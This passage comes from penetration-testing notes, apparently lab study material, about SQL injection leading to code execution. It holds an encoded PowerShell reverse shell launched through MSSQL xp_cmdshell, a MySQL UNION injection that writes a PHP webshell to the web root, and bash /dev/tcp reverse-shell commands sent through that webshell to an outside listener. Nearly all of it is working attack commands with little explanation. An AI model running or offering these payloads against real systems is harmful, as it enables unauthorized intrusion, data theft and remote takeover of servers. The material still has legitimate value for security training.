EXECUTE xp_cmdshell 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANgAxACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==';
```

### Manual Code Execution MySQL
#### Union Based Payload
```bash
# We will create UNION SELECT SQL keywords to include a single PHP line into the first column and save it as webshell.php in a writable web folder.

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

# , null, null, null, null: Padding to match the number of columns in the original query. If the original SELECT had 5 columns, your UNION SELECT must also return 5 columns or it errors out. 

# 6 columns: ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

#7 Columns: ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

# This created a webshell.php file in the /tmp directory where we can now run the cmd= 

#Example:

http://192.168.183.19/tmp/webshell.php?cmd=id

#or

http://192.168.183.19/tmp/webshell.php?cmd=cat%20%2Fetc%2Fpasswd
```




#### Establish a reverse shell
```bash
http://192.168.183.19/tmp/webshell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.161/4444+0>%261'

# or URL Encoded
curl "http://192.168.183.19/tmp/webshell.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.45.161/4444%200>%261'"

```


## SQL Map (TO BE CONTINUED)